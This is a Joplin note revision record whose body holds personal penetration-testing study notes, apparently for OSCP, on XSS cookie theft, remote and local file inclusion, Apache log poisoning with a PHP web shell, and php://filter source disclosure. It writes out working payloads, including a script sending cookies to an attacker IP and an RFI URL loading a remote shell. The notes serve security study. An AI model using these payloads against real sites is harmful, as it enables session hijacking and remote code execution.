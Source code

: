 id: 5073ae4ff4254b3baeed6d73ae9caeac
parent_id: 
item_type: 1
item_id: e20026fa26ae45ec989c9424b46c29c0
item_updated_time: 1646016692717
title_diff: "[{\"diffs\":[[1,\"1094d9f035074e3a8ef344a61a88cf5e\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"Website Exploit\\\r\\\n\\\r\\\n# XSS\\\r\\\n\\\r\\\n## Reverse Shell\\\r\\\n\\\r\\\n## Using Beef\\\r\\\n\\\r\\\nBeef\\\r\\\n\\\r\\\n\\\\*\\\\*Note: \\\\*\\\\*XSS only works if an authenticated user accesses the webpage\\\r\\\n\\\r\\\n# Steal Cookie Session\\\r\\\n\\\r\\\nCookies have two optional flags of interest to pentesters: Secure and HttpOnly\\\r\\\n\\\r\\\n<ins>**Secure flag**</ins> \\\\-\\\\-\\\\- instructs browser to only send the cookie over encrypted connections. This protects cookie from being sent in cleartext and captured over the network\\\r\\\n\\\r\\\n- Make sure the website is not using HTTPS\\\r\\\n\\\r\\\n<ins>**HttpOnly**</ins> \\\\-\\\\-\\\\- instructs browser to deny JS access to the cookie. If the flag is not set, we can use an XSS payload to steal the cookie.\\\r\\\n\\\r\\\n- If HTTPOnly is set, we can try to use cookie jar overflow\\\r\\\n- ![b7757caf5e1a534ff942c14219c18e0f.png](:/d74f9f4349a046bbb52b0e421c07954d)\\\r\\\n- In Firefox console, the cookie did not overflow and got removed; instead we manually deleted the cookie and allowed the browser to overwrite. We can also manually edit the cookie; however, this will not work unless we programme it to\\\r\\\n- We can do a for-loop, then\\\r\\\n\\\r\\\nFirst, use an XSS script if HttpOnly is not set\\\r\\\n\\\r\\\n> &lt;script&gt;new Image().src=’[http://10.11.0.4/hijacker.php?cookie=’+document.cookie;](http://10.11.0.4/hijacker.php?cookie=%E2%80%99+document.cookie;)&lt;/script&gt;\\\r\\\n\\\r\\\nWhen we have our web server open, we will see the user accessing, and the Session ID generated\\\r\\\n\\\r\\\nUse Cookie-Editor to access the webpage\\\r\\\n\\\r\\\n# File Inclusion Vulnerabilities\\\r\\\n\\\r\\\nCheck values of register\\\\_globals, allow\\\\_url wrappers.\\\r\\\n\\\r\\\n- In [version](https://www.plus2net.com/php_tutorial/php-version.php) PHP 5 and above by default, *register_global* is kept OFF.\\\r\\\n- If allow\\\\_url\\\\_include or allow\\\\_url\\\\_fopen is enabled, proceed to do RFI\\\r\\\n\\\r\\\nIf have access to source code, check for **include** and code that are poorly design e.g.\\\r\\\n\\\r\\\n- $file = $_GET\\\\['page'\\\\];\\\r\\\n\\\r\\\nMake sure to look out for parameters that are linked to files (signs of file inclusion)\\\r\\\n\\\r\\\n![28d96990055803bbc316ed7557f0ea00.png](:/a43d4d1f5d3b4e1a9802a632d5ca66e3)\\\r\\\n\\\r\\\n> 192.168.0.2/DVWA/vulnerabilities/fi/?page=http://192.168.0.5:8000/shell.php #For RFI\\\r\\\n\\\r\\\nSometimes, the LFI is in the Request sent. Example shown is from OSCP machine we did\\\r\\\n\\\r\\\n<img src=\\\":/9c71d821603843889d4313b4d820bcb2\\\" alt=\\\"1e1c6c65502bd520d973599be7b3ac72.png\\\" width=\\\"851\\\" height=\\\"514\\\" class=\\\"jop-noMdConv\\\">\\\r\\\n\\\r\\\nSometimes during a Local File Inclusion, the web server appends ‘.php’ to the included file. For example, including ‘/etc/passwd’ gets rendered as ‘/etc/passwd.php’. This occurs when the include function uses a parameter like *?page* and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (%00) would cause the interpreter to stop reading, which would allow the attacker to include their intended page.\\\r\\\n\\\r\\\n# Log File Poisoning\\\r\\\n\\\r\\\nLogs to look into trying - https://www.thegeekstuff.com/2011/08/linux-var-log-files/\\\r\\\n\\\r\\\nFTP - /var/log/**vsftp.d**\\\r\\\n\\\r\\\nSSH, login info - /var/log/**auth.log**\\\r\\\n\\\r\\\nHTTP - On windows if xampp, C:\\\\\\\\xampp\\\\\\\\apache\\\\\\\\logs\\\\\\\\access.log; On Linux, /var/log/apache2/access.log\\\r\\\n\\\r\\\n> nc 192.168.1.102 80\\\r\\\n> \\\r\\\n> &lt;?php echo 'pre&gt;' . shell\\\\_exec($\\\\_GET\\\\['cmd'\\\\]) . '&lt;/pre&gt;';?>\\\r\\\n> \\\r\\\n> \\\\# To access log\\\r\\\n\\\r\\\nAfter writing to the log file, run the file\\\r\\\n\\\r\\\n> http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id\\\r\\\n\\\r\\\n# Bypassing php-execution\\\r\\\n\\\r\\\nSo if you have an LFI you can easily read `.txt`-files but not `.php` files. That is because they get executed by the webserver, since their file-ending says that it contains code. This can be bypassed by using a build-in php-filter.\\\r\\\n\\\r\\\n> http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index \\\r\\\n\\\r\\\nHere you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:\\\r\\\n\\\r\\\n> base64 -d savefile.php\\\r\\\n\\\r\\\nid: 1094d9f035074e3a8ef344a61a88cf5e\\\r\\\nparent_id: 8e7bd5349cf3494986eccd0619b576c9\\\r\\\ncreated_time: 2022-01-25T01:48:20.761Z\\\r\\\nupdated_time: 2022-01-25T16:46:37.710Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 0.00000000\\\r\\\nlongitude: 0.00000000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2022-01-25T01:48:20.761Z\\\r\\\nuser_updated_time: 2022-01-25T16:46:37.710Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":4577}]"
metadata_diff: {"new":{"id":"e20026fa26ae45ec989c9424b46c29c0","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016692709,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.642Z
created_time: 2022-02-28T02:54:21.642Z
type_: 13